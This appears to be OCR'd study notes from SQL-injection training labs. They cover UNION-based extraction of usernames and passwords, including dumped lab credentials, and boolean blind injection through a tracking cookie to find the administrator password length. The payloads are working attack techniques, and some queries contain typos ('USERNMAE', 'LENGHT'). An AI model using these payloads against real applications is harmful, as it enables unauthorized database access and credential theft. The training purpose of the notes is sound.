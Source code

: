 DETERMINE DATA TYPE OF THE INFORMATIONS

' UNION SELECT 'a', NULL--
-ERROR_> DATA IN THE FIRST COLUMNS ARE INTEGERS
' UNION SELECT NULL,'a'--
--200-> DATA IN THE SECOND COLUMN ARE STRINGS

PRINTING THE DATABASE VERSION 
 ' union SELECT NULL, Version()--
 

OUTPUT THE USERNAME AND PASSWORD IN ONE COLUNM
' UNION SELECT NULL, username || '~' || password FROM users--

administrator~y0q8hwouok2cl972hqi2
wiener~et8jnr8k9bj8focojpeo
carlos~fsbyrz15l2iduhlraode

LAB#7 BLIND SQLI WITH CONDITIONAL STATEMENT
------

SQLI-- BLIND SQL INJECTION WITH CONDITIONAL STATEMENT 
VULNERABLE PARAMETERM-- TRACKING COOKIE
GOAL --> ADMINISTRATION PASSWORD


ANALYSIS-

select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN'

-   ﻿> If this tracking id exists -> query returns value -> Welcome back message
-   ﻿> If the tracking id doesn't exist -> query returns nothing -> no Welcome back
message

select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND 1=1--
TRUE--> welcome message
select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND 1=0--
FALSE--> NO WECOME MESSGE 

#1 CONFIRM THAT WE HAVE USER TABLE 
select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (Select 'x' from users LIMIT 1)= 'x'--  
--> true user table exist

#2 CONFIRM THAT THERE IS A USERNAME COLUMN IN THE TABLE AND THE ADMIN PARAMETER IS PRESENT

select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (SELECT USERNAME FROM USERS WHERE USERNMAE = 'ADMINISTRATOR' ) = 'ADMINISTRATOR' -- '
--> TRUE

#3 ENUMERATE THE ADMIN PASSWORD

DETERMINING PASSWORD LENGHT
select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (SELECT USERNAME FROM USERS WHERE USERNMAE = 'ADMINISTRATOR' AND LENGHT(PASSWORD) >1) = 'ADMINISTRATOR' -- '
--> TRUE
select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (SELECT USERNAME FROM USERS WHERE USERNMAE = 'ADMINISTRATOR' AND LENGHT(PASSWORD) >2) = 'ADMINISTRATOR' -- '
-->TRUE ........
..........
TILL FALSE
select tracking-id from tracking-table where trackingId = 'RVLfBu6s9EZRIVYN' AND (SELECT USERNAME FROM USERS WHERE USERNMAE = 'ADMINISTRATOR' AND LENGHT(PASSWORD) >20) = 'ADMINISTRATOR' -- '
--> FALSE PASSWORD IS NOT GREATER THAN 20
